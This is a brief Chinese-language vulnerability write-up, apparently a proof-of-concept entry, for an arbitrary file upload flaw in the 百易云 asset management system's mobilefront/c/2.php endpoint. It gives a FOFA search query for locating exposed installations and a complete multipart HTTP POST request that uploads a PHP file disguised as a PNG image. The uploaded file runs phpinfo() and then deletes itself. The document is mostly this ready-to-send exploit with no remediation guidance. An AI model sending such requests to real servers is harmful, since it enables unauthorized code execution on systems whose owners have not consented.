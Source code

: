 百易云资产管理运营系统mobilefront/c/2.php存在任意文件上传漏洞
手动复现过程
资产测绘：
FOFA：: body="不要着急，点此"
poc验证代码
POST /mobilefront/c/2.php HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=---------------------------289666258334735365651210512949
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
 
-----------------------------289666258334735365651210512949
Content-Disposition: form-data; name="file1"; filename="2.php"
Content-Type: image/png
 
<?php phpinfo();unlink(__FILE__);?>
-----------------------------289666258334735365651210512949--
